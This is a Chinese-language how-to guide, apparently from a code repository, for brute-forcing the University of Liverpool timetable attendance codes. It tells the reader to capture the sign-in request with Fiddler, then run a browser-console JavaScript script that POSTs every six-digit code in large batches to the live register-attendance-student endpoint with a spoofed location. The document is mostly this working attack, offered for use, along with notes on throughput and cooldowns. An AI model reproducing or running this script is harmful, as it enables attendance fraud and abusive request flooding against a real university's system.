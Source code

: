 # UoL - Attendance Code 爆破

<aside>
💡 请谨慎使用

此方法极易被检测到异常流量, 不清楚现在及未来, 管理员是否会针对该方法

</aside>


## 0.1 原理

通过浏览器开发人员控制台, 执行JS爆破

抓包, **模拟请求**

由于涉及到 SSL证书 等操作, 这个方法比写程序容易操作很多, 无论是编写还是执行

## 0.2 可行性

多个线程进行爆破, 经测试, 15min 300000个

1. 据观察, 没有0开头的6位签到码

2. 据观察, 连续执行一段时间后, 会触发冷却

可行性仍有待研究


## 1.1 初始化准备

1. 浏览器
2. 抓包工具 (以 `Fiddler` 为例)

## 1.2 准备数据 (先手动操作一遍, 获取请求信息)



1. 浏览器打开 Timetable
    
    [Sign In](https://timetables.liverpool.ac.uk/)
    
2. 打开 Fiddler
3. 进入timetable, 打开指定课程, 输入一次签到码
4. 切换回 Fiddler, 从左侧列表中的 `Host` 列, 找到 `timetables.liverpoo.ac.uk` 且其对应的  `URL`   列显示为 `/services/register-attendance-student` , 双击该行
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/c0e70c2e-df67-4058-b784-bb332f4e7c0a/Untitled.png)
    

## 1.3 构建脚本数据



1. 选中 Fiddler 左侧行后, 右侧会显示 该数据包相关信息
2. 点击 `raw` 选项卡, 里边最后一行就是数据正文
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/9239a0a9-890c-4a94-9410-f59c8f88b11f/Untitled.png)
    
3. 从里边提取对应字段, 替换下方脚本代码 `body` 对应字段
    
    ``` javascript
    async function sendBatchRequests(start, end, batch) {
      let batchPromises = [];

      for (let i = start; i <= end; i += batch) {
        batchPromises = [];
        for (let j = i; j < i + batch && j <= end; j++) {
          let attCodeInputValue = j.toString().padStart(6, "0");
          batchPromises.push(
            fetch("https://timetables.liverpool.ac.uk/services/register-attendance-student", {
              method: "POST",
              headers: {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
              },
              // 请自行修改以下内容
              body: `attCodeInput=${attCodeInputValue}&uniqueId=UNIQUEID&actId=ACTID&attStart=12%2F03%2F2024+12%3A00&attEnd=12%2F03%2F2024+13%3A15&location=53.40998037885158%2C-2.958224235311767`,
            }).then(response => response.json())
            .then(data => console.log(data))
            .catch(error => console.error('Error:', error))
          );
        }

        await Promise.all(batchPromises);
        console.log(`Batch from ${i} to ${Math.min(i + batch - 1, end)} completed.`);
        await new Promise((resolve) => setTimeout(resolve, 1000)); // 间隔时间
      }
    }

    sendBatchRequests(100000, 999999, 10000); // 分割的数量

    ```
    

## 1.4 发送数据


1. 切换回浏览器的Timetable选项卡
2. 按 `F12` 打开开发者控制台
3. 切换到 `console` 选项卡
4. 粘贴你刚刚构建好的脚本, 回车执行